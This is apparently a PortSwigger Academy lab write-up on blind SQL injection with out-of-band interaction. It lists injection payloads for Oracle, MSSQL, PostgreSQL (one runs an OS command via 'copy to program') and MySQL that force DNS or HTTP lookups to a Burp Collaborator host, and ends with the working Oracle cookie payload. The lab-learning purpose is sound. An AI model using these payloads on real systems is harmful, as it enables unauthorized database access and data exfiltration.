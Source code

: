 
# Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet




---------------------------------------------


### Oracle
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

```
FFyToxqSs49lpxuC'+AND+select+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://q6xv6nktkah599jksflne4qcz35utqhf.oastify.com/">+%remote%3b]>'),'/l')+FROM+dual--

FFyToxqSs49lpxuC'+AND+SELECT+UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')--
```

### Microsoft
```
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

```
FFyToxqSs49lpxuC'+and+exec+master..xp_dirtree+'//BURP-COLLABORATOR-SUBDOMAIN/a'--
```

### PostgreSQL
```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

```
FFyToxqSs49lpxuC'+||+(copy+(SELECT+'')+to+program+'nslookup+BURP-COLLABORATOR-SUBDOMAIN')--
```


### MySQL
```
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
```

```
FFyToxqSs49lpxuC'+AND+LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--
```

-----------------------------------------------

Finally, the correct payload was the Oracle payload, changing the AND for a UNION and encoding the characters ;, ? and =:

```
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/1.png)




![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/2.png)